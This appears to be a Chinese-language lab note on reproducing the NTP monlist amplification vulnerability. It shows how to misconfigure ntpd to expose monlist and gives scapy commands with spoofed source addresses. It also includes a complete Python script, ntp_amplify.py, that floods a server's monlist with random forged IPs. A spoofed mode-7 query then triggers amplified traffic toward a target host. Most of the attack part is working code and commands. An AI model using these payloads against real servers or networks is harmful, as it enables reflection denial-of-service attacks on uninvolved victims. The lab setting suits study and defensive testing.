







kali自带ntp server：

	# ntpd --version                                                                               
	ntpd 4.2.8p15@1.3728-o Wed Sep 23 11:46:38 UTC 2020 (1)

或 yum install ntp

没有漏洞的服务器:

	ntpdc -n -c monlist 10.20.24.56



	vim ntp.conf

将下面两行注释(注释后有漏洞，默认没注释)：

```restrict default nomodify notrap nopeer noquery```

```disable monitor```

重启服务器：

开启了monlist且含有漏洞的服务器:



使用 ```# ntpdc >monlist``` 

标红的5个为新加到ntp服务器ip交互列表中ip：



向ntp server ip列表添加ip的payload:

	send(IP(dst='10.10.40.21',src='10.10.40.59')/UDP(sport=123)/NTP(leap=3, version=4, mode=3))

可以观察到增加了一个伪造的ip，10.10.40.59(10.10.40.21为ntp server)：



可模拟网络互通的任意一台主机发包，这里我在10.10.40.99的scapy下输入下面命令模拟对10.10.40.53进行攻击(经测试某些情况靶机无法收到流量)：

	send(IP(dst='10.10.40.21',src='10.10.40.53')/(UDP(sport=46191)/NTP(version=2,mode=7,stratum=0,poll=3,precision=42)))



可以写个脚本循环添加ip到 ntp server的列表里。

	# -*- coding:utf-8 -*-
	# linux
	from scapy.all import *
	import random
	
	if len(sys.argv) != 3:
	    print("参数错误，用法如下: ")
	    print("python ntp_amplify.py [ntp_server_IP] [num]")
	    sys.exit()
	ntp_server = sys.argv[1]
	num = int(sys.argv[2])
	print("NTP reflect start,press Ctrl+C to stop.")
	for i in range(num):
	    ip = str(random.randint(1, 200)) + '.' + str(random.randint(1, 200)) + '.' + str(
	        random.randint(1, 200)) + '.' + str(random.randint(1, 200))
	    send(IP(dst=ntp_server, src=ip) / UDP(sport=123) / NTP(leap=3, version=4, mode=3))
	    print(ip + 'successful!')

用法：

	python ntp_amplify.py 10.10.40.21 10

再使用工具 scapy 模拟靶机(目标机)进行请求查询，获取放大的ntp response。例如对53发起攻击：

	send(IP(dst='10.10.40.21',src='10.10.40.53')/(UDP(sport=46191)/NTP(version=2,mode=7,stratum=0,poll=3,precision=42)))

效果：使用scapy发一个包，ntp server回复n个包，可以写个循环脚本用scapy发上面的数据包。



## reference

[scapy](https://github.com/secdev/scapy)

## 后记

开始在靶机10.20.24.56 攻击失败；后来靶机换成 10.10.40.53 攻击成功，某些情况靶机无法收到流量，需要换台靶机测试。

